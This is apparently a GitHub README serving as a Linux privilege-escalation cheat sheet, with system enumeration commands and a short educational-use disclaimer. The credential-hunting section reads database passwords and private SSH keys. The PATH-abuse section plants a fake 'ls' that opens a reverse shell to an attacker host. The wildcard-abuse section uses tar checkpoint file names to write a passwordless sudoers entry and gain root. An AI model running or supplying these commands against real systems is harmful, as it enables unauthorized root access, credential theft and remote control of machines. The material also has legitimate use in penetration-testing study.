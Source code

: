 # Linux Privilege Escalation 🚀

This repository contains various Linux privilege escalation techniques, including environment enumeration, service enumeration, credential hunting, path abuse, and wildcard abuse.

---

## 📌 Table of Contents
- [1️⃣ Environment Enumeration](#environment-enumeration)
- [2️⃣ Linux Services & Internals Enumeration](#linux-services--internals-enumeration)
- [3️⃣ Credential Hunting](#credential-hunting)
- [4️⃣ Path Abuse](#path-abuse)
- [5️⃣ Wildcard Abuse](#wildcard-abuse)

---

## 1️⃣ Environment Enumeration 🔍

### OS & Kernel Information:
```bash
cat /etc/os-release          # OS version
cat /proc/version            # Kernel version
uname -a                     # Complete system info
lscpu                        # CPU info
```

### Security Mechanisms:
```bash
# Check for security features
sestatus                     # SELinux status
aa-status                    # AppArmor status
iptables -L                  # Firewall rules
ufw status                   # Uncomplicated Firewall
fail2ban-client status       # Fail2ban status
```

### Drives, Shares & Printers:
```bash
lsblk                         # List block devices
lpstat -a                     # Printer information
```

---

## 2️⃣ Linux Services & Internals Enumeration ⚙️

### Running Processes:
```bash
find /proc -name cmdline -exec cat {} \; 2>/dev/null | tr " " "\n"
```

### Installed Packages:
```bash
apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list
```

### GTFOBins Exploitable Binaries:
```bash
for i in $(curl -s https://gtfobins.github.io/ | html2text | cut -d" " -f1 | sed '/^[[:space:]]*$/d'); do 
    if grep -q "$i" installed_pkgs.list; then 
        echo "Check GTFO for: $i"; 
    fi; 
done
```

### Find All Shell Scripts:
```bash
find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"
```

---

## 3️⃣ Credential Hunting 🔑

### Find Configuration Files:
```bash
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```

### Extract Database Credentials:
```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

### Check SSH Keys:
```bash
ls -la ~/.ssh/
cat ~/.ssh/id_rsa
cat ~/.ssh/known_hosts
```

---

## 4️⃣ Path Abuse 🛠️

Modifying a user's `PATH` allows execution of malicious binaries instead of legitimate system commands.

```bash
export PATH=.:$PATH    # Add the current directory to PATH
echo 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1' > ls
chmod +x ls
ls    # Executes our malicious 'ls' instead of /bin/ls
```

---

## 5️⃣ Wildcard Abuse ⚠️

### **Using `tar` for Privilege Escalation**
If a cron job is executing a command like:
```bash
*/01 * * * * cd /home/user && tar -zcf /home/user/backup.tar.gz *
```
We can exploit wildcards:
```bash
echo 'echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```
After the cron job runs, escalate privileges:
```bash
sudo -l    # Verify privilege escalation
sudo su    # Gain root access
```

---

## 📚 References
- [GTFOBins](https://gtfobins.github.io/)
- [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
- [HackTheBox](https://account.hackthebox.com/login)
---

## ⚠️ Disclaimer
This repository is for **educational purposes only**. Unauthorized testing or exploitation of systems without explicit permission is **illegal**.

---
